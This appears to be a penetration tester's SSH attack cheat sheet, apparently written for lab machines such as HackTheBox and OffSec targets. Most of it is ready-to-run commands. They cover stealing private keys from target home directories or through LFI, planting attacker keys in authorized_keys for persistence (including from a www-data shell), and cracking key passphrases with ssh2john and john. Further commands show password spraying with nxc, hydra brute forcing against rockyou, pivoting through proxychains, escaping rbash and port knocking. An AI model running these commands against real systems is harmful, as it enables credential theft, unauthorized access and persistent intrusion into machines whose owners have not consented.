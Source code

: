 nmap
```
nmap -p 22 --script=ssh-hostkey,ssh-auth-methods,sshv1 <target-ip>
```

---
#### Different types and locations:
RSA
- stored on linux at `/home/anita/.ssh/id_rsa`
-  stored on windows at `C:\Users\<Username>\.ssh\id_rsa`
DSA
- stored on linux at `/home/anita/.ssh/id_dsa`
- stored on windows at `C:\Users\<Username>\.ssh\id_dsa`
ecdsa
- stored on linux at `/home/anita/.ssh/id_ecdsa`
- stored on windows at `C:\Users\<Username>\.ssh\id_ecdsa`
ed25519
- stored on linux at `/home/anita/.ssh/id_ed25519`
- stored on windows at `C:\Users\<Username>\.ssh\id_ed25519`

if LFI, check `/etc/ssh/sshd_config` to see ssh key locations

---
#### Use keys from .ssh folder in user's home directory
- make sure `id_rsa.pub` and `authorized_keys` are identical
```
md5sum id_rsa.pub
```
```
md5sum authorized_keys
```
- if hash is identical, transfer `id_rsa` file (not the .pub) to home machine and ssh in without password

---
#### Generate ssh key pair
```
ssh-keygen -t rsa -f ./dank_rsa
```
- key will be saved as `dank_rsa` (private key) and `dank_rsa.pub` (public key) in the current directory (`./`)
- rename `dank_rsa.pub` as `authorized_keys` and upload to target machine in `~/.ssh/` folder on the machine I want to SSH into
```
ssh user_on_target_machine@192.168.198.249 -p 25022 -i dank_rsa
```
- user must be on target machine in the home folder that contains .ssh
- `-p` for alternate port (without `-p` default is 22)
##### If already connected, just copy contents of .pub
copying the contents to the `authorized_keys` file on remote machine:
```
cat dank_rsa.pub
```
- copy entire output and use in `echo` command below
on remote machine in the `/home/username` directory:
```
mkdir .ssh && cd .ssh
```
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqwSCwB7vK26CckpfDL1D0+/z6sf42jocBMLUsbca+m kali@kali" > authorized_keys
```
- change `kali@kali` to my kali user and computer name
- run command on my kali machine:
```
ssh -i id_ed25519 matt@pilgrimage.htb
```

###### Generating rsa ssh keys in /var/www if only have www-data shell on target machine:
```
cd /var/www
```
```
mkdir .ssh
```
```
ssh-keygen -q -t rsa -N '' -C 'pam'
```
```
cp .ssh/id_rsa.pub .ssh/authorized_keys
```
```
chmod 600 .ssh/authorized_keys 
```
- then, copy private key to local host machine
```
ssh -i id_rsa www-data@10.10.10.6
```
- run from kali
---
#### Crack a private key:
- get id_ecdsa on local machine. can copy contents of private key from target if needed:
	- set correct permissions
		- `chmod 600 id_ecdsa`
```
ssh2john id_ecdsa > anita.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash
```
- returns password
```
ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222
```

---
#### spray
```
nxc ssh ip -u user -p pass
```

---
#### bruteforce
```
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.203.122 -V
```

```
hydra -l alfredo -e nsr 192.168.152.249 ssh
```
- checks null passwords, username as password, and reverse of username as password
---
#### ssh tunneling aka port forwarding:
```
ssh -L [local_port]:127.0.0.1:[remote_port] [username]@[remote_host]
```
- if port forward is blocked `channel 3: open failed: administratively prohibited: open failed` use proxychains instead:
	- add `socks4  127.0.0.1 8081` to `/etc/proxychains4.conf` in kali
	- `ssh charix@10.129.1.254 -D 8081` run from kali
	- `proxychains vncviewer 127.0.0.1:5901 -passwd secret` run from kali
		- example using vncviewer and password file

---
#### Escape rbash shell with `-t bash`
```
ssh mindy@10.129.226.162 -t bash
```
- `-t bash` instructs ssh to use bash as shell instead of whatever is default assigned in /etc/passwd
- if regular ssh command pops you into a limited -rbash shell, use this

---
#### Port Knocking
`ps -auxww` will show `/usr/sbin/knockd` running
- `cat /etc/knockd.conf` and will see openSSH sequence = 571, 290, 911
	- Put together a script to hit those 3 ports within 5 seconds to open SSH on the host and then connect in:
```
for i in 571 290 911; do
nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.129.222.16 >/dev/null
done; ssh -i id_rsa amrois@10.129.222.16
```
- might take multiple tries to run this one-liner from bash on kali host